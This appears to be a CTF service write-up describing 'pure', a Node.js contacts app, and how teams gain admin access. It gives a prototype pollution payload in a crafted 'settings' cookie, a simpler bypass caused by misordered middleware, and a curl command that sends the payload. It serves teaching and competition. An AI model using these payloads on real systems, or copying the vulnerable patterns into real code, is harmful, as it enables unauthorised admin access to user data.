 # pure

## Service Description
`pure` is a service to create/edit contacts. It is written in JavaScript and uses MongoDB as a data storage and Nginx as a reverse proxy:

![schema](schema.png)

The user interface allows to:

1. Register a new user:

   ![Example of registration screen](register.png)

2. Create a contact:
   ![Example of contact creation screen](create_contact.png)

3. Change theme to dark mode:
   ![Example of dark mode screen](dark_mode.png)

Also there is an admin interface that allows to view contacts of all users:
![Example of the admin interface](admin.png)

The access to the admin pages is protected using client certificate authentication. This protection is implemented with Nginx:


    server {
        ...
        ssl_client_certificate /etc/ssl/certs/ca.crt;
        ssl_verify_client optional;

        location / {
            ...
            proxy_set_header VERIFIED $ssl_client_verify;
            ...
        }
    }


Nginx checks the client certificate and set `VERIFIED` HTTP header. The application uses this header to set `req.session.isAdmin` property:


    if (req.headers && req.headers['verified'] == 'SUCCESS' && req.session) {
        req.session.isAdmin = true;
    } else {
        if (req.session && req.session.isAdmin) {
            delete req.session.isAdmin;
        }
    }


## Vulnerability Description

To steal the flags, teams should somehow set `req.session.isAdmin` property to `true` in the Node.JS application.

### Intended Way to Exploit
Property `req.session.isAdmin` can be set to `true` by exploiting the [Prototype Pollution](https://portswigger.net/web-security/prototype-pollution) vulnerability.

`cookieSettingsHandler` in [web/middlewares.js](../../services/pure/web/middlewares.js) allows to set arbitrary property name and an attacker could send a specially crafted `settings` cookie containing JSON-encode object `j:["__proto__",":",{"isAdmin": true, "cookie":{"originalMaxAge":null,"expires":null,"httpOnly":true,"path":"/"}}]`. This object will be decoded by the `cookieParser()`, and the following assignment will be executed:

```
req.session["__proto__"] = {"isAdmin": true, "cookie":{"originalMaxAge":null,"expires":null,"httpOnly":true,"path":"/"}};
```

### Unintended Way to Exploit

Unfortunately, the following middlewares were added in wrong order:

```
app.use(middlewares.adminHandler);
app.use(middlewares.cookieSettingsHandler);
```

Because of this, an attacker could exploit the application much easier. The following `settings` cookie could be used to set `req.session.isAdmin` property to `true`: `settings=isAdmin:1`


## Exploit

To exploit the vulnerability an attacker could send specially crafted `settings` cookie to the application:

```
curl -k https://<HOST> --cookie 'connect.sid=<SESSION COOKIE>' --cookie 'settings=j:["__proto__",":",{"isAdmin": true, "cookie":{"originalMaxAge":null,"expires":null,"httpOnly":true,"path":"/"}}]'
```

You can find the full exploit [here](../../sploits/pure/sploit.py).
